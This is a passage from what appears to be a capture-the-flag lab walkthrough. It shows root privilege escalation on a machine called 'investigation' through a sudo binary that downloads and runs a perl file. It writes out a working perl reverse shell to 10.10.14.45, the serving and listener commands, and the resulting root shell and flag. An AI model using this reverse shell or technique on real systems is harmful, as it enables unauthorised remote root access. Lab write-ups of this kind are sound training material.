 Steps the script will perform:
1. curl resource from `param1`
2. Save the curl result to file with name: `param2`
3. Execute the downloaded file with **perl**
4. Finally, remove the file `./lDnxUysaQn`

Generate perl reverse shell with https://www.revshells.com/

```bash
┌──(root㉿kali)-[~/investigation/www]
└─# echo 'use Socket;$i="10.10.14.45";$p=1111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' >> rev.pl

┌──(root㉿kali)-[~/investigation/www]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On target machine

```bash
smorton@investigation:~$ sudo /usr/bin/binary 10.10.14.45/rev.pl 'lDnxUysaQn'
Running...
```

Listener

```bash
┌──(root㉿kali)-[~/investigation/www]
└─# pwncat-cs -lp 1111 -m linux
[10:57:22] Welcome to pwncat 🐈!                                                                                                                                                                  __main__.py:164[10:57:35] received connection from 10.10.11.197:34032                                                                                                                                                 bind.py:84[10:57:38] 10.10.11.197:34032: registered new host w/ db                                                                                                                                                                                                                                                                  manager.py:957(local) pwncat$
(remote) root@investigation:/home/smorton#
(remote) root@investigation:/home/smorton# id
uid=0(root) gid=0(root) groups=0(root)
(remote) root@investigation:/home/smorton# cd ~
(remote) root@investigation:/root# cat root.txt
328daf503a56809950e0996d1f12ae66
(remote) root@investigation:/root#
```
